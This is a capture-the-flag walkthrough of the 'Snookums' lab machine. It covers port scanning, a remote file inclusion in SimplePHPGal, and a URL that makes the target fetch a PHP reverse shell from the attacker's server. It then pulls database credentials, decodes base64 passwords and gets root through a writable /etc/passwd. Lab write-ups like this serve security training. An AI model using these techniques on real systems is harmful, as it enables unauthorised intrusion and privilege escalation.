 # Snookums

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.197.58 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-04 22:49 +08
Warning: 192.168.197.58 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.197.58
Host is up (0.17s latency).
Not shown: 65484 filtered tcp ports (no-response), 43 closed tcp ports (conn-refused)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3306/tcp  open  mysql
33060/tcp open  mysqlx
```

Lots of ports open.

### PHP Gallery --> RFI + RCE

Port 80 was running a Simple PHP Photo Gallery instance:

<figure><img src="../../../.gitbook/assets/image (114).png" alt=""><figcaption></figcaption></figure>

This thing might be vulnerable to an RFI based on `searchsploit`:

```
$ searchsploit SimplePHP
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
FREEsimplePHPGuestbook - 'Guestbook.php' Remote Code Execu | php/webapps/7079.txt
SimplePHPGal 0.7 - Remote File Inclusion                   | php/webapps/48424.txt
```

The PoC is quite simple to test:

```
### Poc  :

[+]   site.com/image.php?img= [ PAYLOAD ]
```

And it does work since I can make the website send requests to my HTTP server:

<figure><img src="../../../.gitbook/assets/image (11) (10).png" alt=""><figcaption></figcaption></figure>

To exploit this, we can just host a PHP reverse shell from PentestMonkey and make the website call it by visiting [http://192.168.197.58/image.php?img=http://192.168.45.177/rev.php](http://192.168.197.58/image.php?img=http://192.168.45.177/rev.php).

<figure><img src="../../../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### SQL Creds --> Michael Shell

Within the `/var/www/html` file, there's a `db.php` folder that contains MySQL credentials:

```
bash-4.2$ cat db.php 
<?php
define('DBHOST', '127.0.0.1');
define('DBUSER', 'root');
define('DBPASS', 'MalapropDoffUtilize1337');
define('DBNAME', 'SimplePHPGal');
?>
```

Using this, we can login using `mysql`:

```
bash-4.2$ mysql -u root -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 10
Server version: 8.0.20 MySQL Community Server - GPL

Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```

Within the MySQL database there were some credentials:

```
mysql> show tables;
+------------------------+
| Tables_in_SimplePHPGal |
+------------------------+
| users                  |
+------------------------+
1 row in set (0.00 sec)

mysql> select * from users
    -> ;
+----------+----------------------------------------------+
| username | password                                     |
+----------+----------------------------------------------+
| josh     | VFc5aWFXeHBlbVZJYVhOelUyVmxaSFJwYldVM05EYz0= |
| michael  | U0c5amExTjVaRzVsZVVObGNuUnBabmt4TWpNPQ==     |
| serena   | VDNabGNtRnNiRU55WlhOMFRHVmhiakF3TUE9PQ==     |
+----------+----------------------------------------------+
```

These are just  `base64` encoded strings, and we can easily find the cleartext passwords. `michael` is the only user within `/home`, so we can decode his password:

```
$ echo 'U0c5amExTjVaRzVsZVVObGNuUnBabmt4TWpNPQ==' | base64 -d | base64 -d
HockSydneyCertify123
```

Then, just use `su`:

<figure><img src="../../../.gitbook/assets/image (122).png" alt=""><figcaption></figcaption></figure>

Grab the user flag.

### Writeable /etc/passwd --> Root

`michael` owns `/etc/passwd`. This is findable by running `linpeas.sh`:

```
[michael@snookums ~]$ ls -la /etc/passwd
-rw-r--r--. 1 michael root 1162 Jun 22  2021 /etc/passwd
```

Using this, we can easily create a new root user.&#x20;

<figure><img src="../../../.gitbook/assets/image (163).png" alt=""><figcaption></figcaption></figure>

Rooted!
